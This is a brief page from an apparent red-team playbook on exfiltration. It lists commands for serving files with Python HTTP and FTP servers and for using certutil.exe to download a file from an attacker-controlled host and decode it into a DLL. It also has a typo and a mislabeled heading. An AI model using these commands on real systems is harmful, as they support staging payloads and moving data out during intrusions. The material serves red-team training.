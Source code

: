# 7.2 Exfiltration

## File transfer

### Python SimpleHTTPServer

```c
python -m SimpleHTTPServer <LPORT>
```

### Python3 HTTP Server

```c
pyhton3 -m http.server <LPORT>
```

### Simple FTP Server

```c
python -m pyftpdlib -p 21 --write
```

### Certutil

#### Base64 encoding

```c
certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

#### Base64 decoding

```c
certutil.exe -decode <FILE>.txt <FILE>.dll
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
